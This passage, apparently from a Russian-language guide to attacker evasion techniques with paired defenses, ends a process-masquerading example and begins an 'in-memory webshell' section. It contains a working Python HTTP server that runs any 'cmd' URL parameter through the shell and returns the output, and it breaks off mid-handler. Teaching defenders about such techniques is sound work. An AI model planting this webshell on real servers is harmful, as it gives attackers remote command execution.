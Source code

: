             # subprocess.Popen("notepad.exe") # Простой запуск
            # Имитация запуска "под прикрытием" - в реальности сложнее
            print("Имитация запуска процесса, который мог бы быть замаскирован под дочерний от explorer.exe")
            # Для Windows, чтобы не мелькало окно консоли Python:
            # startupinfo = subprocess.STARTUPINFO()
            # startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
            # startupinfo.wShowWindow = subprocess.SW_HIDE
            # subprocess.Popen("notepad.exe", startupinfo=startupinfo)
        except Exception as e:
            print(f"Ошибка запуска процесса: {e}")
        ```
        **Защита:** Анализ аномальных отношений "родитель-потомок". Если `notepad.exe` вдруг запускается процессом, который обычно этого не делает, это подозрительно.

4.  **In-Memory Webshells (Веб-шеллы в Памяти)**
    Вместо того чтобы размещать файл веб-шелла на диске сервера, он может быть загружен и выполнен полностью в памяти процесса веб-сервера.
    *   **Пример: Простейший HTTP-сервер на Python, выполняющий команды (PoC)**
        ```python
        import http.server
        import socketserver
        import subprocess
        import urllib.parse

        PORT = 8088 # Выберите незанятый порт

        class InMemoryShellHandler(http.server.SimpleHTTPRequestHandler):
            def do_GET(self):
                # Разбираем URL для получения параметра 'cmd'
                parsed_path = urllib.parse.urlparse(self.path)
                query_params = urllib.parse.parse_qs(parsed_path.query)

                if 'cmd' in query_params:
                    command = query_params['cmd'][0]
                    self.send_response(200)
                    self.send_header("Content-type", "text/plain; charset=utf-8") # Для кириллицы в выводе
                    self.end_headers()
                    try:
                        # Выполняем команду. ВНИМАНИЕ: ОПАСНО!
                        # Для Windows может потребоваться 'cp866' или 'cp1251' в decode
                        output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
                        self.wfile.write(output)
                    except subprocess.CalledProcessError as e:
                        error_message = f"Ошибка выполнения команды:\n{e.output.decode('utf-8', errors='replace')}"
                        self.wfile.write(error_message.encode('utf-8'))
                    except Exception as e:
                        self.wfile.write(str(e).encode('utf-8'))
                else: